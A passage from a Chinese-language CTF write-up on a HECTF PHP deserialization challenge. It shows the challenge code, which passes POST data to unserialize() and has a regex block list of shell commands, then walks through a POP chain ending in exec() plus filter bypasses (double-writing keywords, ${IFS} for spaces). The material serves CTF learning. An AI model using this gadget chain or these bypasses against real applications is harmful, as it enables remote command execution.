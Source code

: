 ```php
    {
        $func = $this->flag;
        return $func();
    }
}
 
new unser(new heeectf(),"user");
 
$data = $_POST['data'];
if(!preg_match('/flag/i',$data))
    unserialize($data);
else
    echo "想干嘛？？？"; Welcome HECTF! Have fun!
```

先看看切入点在哪

切入点为HECTF，先不管过滤这些，把pop链构造一下

`__invoke()`的触发条件是将对象以函数的形式调用

`__get()`的触发条件是从不可访问的属性读取数据

`__call()`跟`__get()`差不多

正推一遍吧

从unser入口到heeectf，调用到了Welcome()，由于其中有引用到auth，因此要进入到GGbond，为了调用到`__get()`就得重新回到heeectf，最后就是进入到HECTF里面了。

其次是绕过问题，exec那可以双写绕过，空格可以用${IFS}绕过

构造如下：

```php
<?php
class GGbond{
    public $candy;
 
    public function __call($func,$arg){
        $func($arg);
    }
 
    public function __toString(){
        return $this->candy->str;
    }
}
 
class unser{
    public $obj;
    public $auth;
}
 
class HECTF{
    public $cmd;
 
    public function __invoke(){
        if($this->cmd){
            $this->cmd = preg_replace("/ls|cat|tac|more|sort|head|tail|nl|less|flag|cd|tee|bash|sh|&|^|>|<|\.| |'|`|\(|\"/i","",$this->cmd);
        }
        exec($this->cmd);
    }
}
 
class heeectf{
    public $obj;
    public $flag = "Welcome";
```